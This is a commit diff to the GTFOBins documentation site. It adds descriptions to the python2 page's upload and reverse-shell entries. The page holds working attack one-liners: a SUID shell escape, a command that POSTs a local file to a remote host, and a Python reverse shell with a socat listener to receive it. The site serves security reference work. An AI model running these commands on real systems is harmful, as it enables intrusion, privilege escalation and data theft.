

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/python2.md, in a window 1280 px wide. Shown: the whole page at 87% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1703 px from its top, so only the background shows below that.

Commit message:
Add descriptions to python2 and python3

```diff
--- a/_gtfobins/python2.md
+++ b/_gtfobins/python2.md
@@ -7,7 +7,7 @@ functions:
   suid-enabled:
     - code: ./python -c 'import os; os.system("/bin/sh -p")'
   upload:
-    - description: Send local file via "d" parameter of a HTTP POST request.
+    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service to collect the file on the other end.
       code: |
         export URL=http://10.0.0.1/
         export LFILE=file_to_send
@@ -23,7 +23,8 @@ functions:
         export LFILE=file_to_get
         python -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
   reverse-shell:
-    - code: |
+    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:8000</code> to receive the shell on the other end.
+      code: |
         export RHOST=127.0.0.1
         export RPORT=8000
         python -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
```
Also changed, not shown: _gtfobins/python3.md (+3 -2 lines).
